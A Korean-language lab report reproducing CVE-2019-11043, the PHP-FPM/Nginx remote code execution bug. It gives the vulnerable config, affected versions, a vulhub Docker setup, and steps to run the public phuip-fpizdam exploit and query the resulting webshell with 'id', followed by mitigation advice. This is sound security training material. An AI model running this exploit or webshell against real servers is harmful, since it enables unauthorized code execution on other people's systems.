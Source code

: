 # CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서
> 화이트햇 스쿨 3기 26반- [윤성준 (@ysj-main)](https://github.com/ysj-main)

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```
![](./img/1.png)

- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.
![](./img/2.png)

### 3.3 기본 동작 확인
터미널로 동작 확인
```bash
curl http://localhost[yourIP]:8080/index.php
# → hello world
```

브라우저로 동작 확인
```
http://localhost[yourIP]:8080/index.php
```
![](./img/3.png)

### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost[yourIP]:8080/index.php"
![](./img/4.png)
```
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost[yourIP]:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```

### 3.5 WebShell 테스트  
터미널로 WebShell 테스트
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
브라우저로 WebShell 테스트
```
http://localhost:8080/index.php?a=id
```
![](./img/5.png)

## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거
